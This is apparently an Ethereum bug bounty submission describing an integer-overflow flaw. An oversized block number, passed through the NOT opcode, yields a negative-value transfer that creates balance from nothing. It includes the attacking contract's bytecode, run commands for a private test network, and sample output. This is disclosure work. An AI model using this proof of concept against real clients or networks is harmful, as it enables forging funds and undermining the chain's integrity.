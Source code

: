 Ethereum Bug Bounty Submission: Sending Negative Value Transactions
---
A miner can create a valid block on top of any block with a block number `n` that exceeds 32 byte.
A contract mined in that block can push `n` on the stack using the NUMBER opcode. 
Because the NOT opcode assumes that all values on the stack are smaller than 32 byte, 
its result will be negative. Then we can use that number to create a transaction with 
negative value. Because the Transfer method simply subtracts the tx value, the contracts balance will actually increase by `n - 2^256 - 1` units out of thin air.

Contract:
```
PUSH1 0 PUSH1 0 PUSH1 0 PUSH1 0 NUMBER NOT PUSH20 someAddr PUSH1 0 CALL
```

Works out-of-the-box against the develop branch (643eda5), but there is a patch for master (771bfe9) as well. The following starts a private network with a malicious miner and a node, creates the contract at the miner and reads the balance from the node.

```
./install.sh
./run.sh
./demo.py
```

Sample output for block with `n=2^512+i`:
```
Create new contract with zero initial balance. Address: 0b435977a4375bd84162499bc2d02a07c3ecbe80
Press enter when the client received the block

Contract balance: ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff000000000000000000000000000000000000000000000000000000000000000d
Receiver balance: ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff000000000000000000000000000000000000000000000000000000000000000d
```
Contract balance is `2^512 + i - 2^256 - 1`.



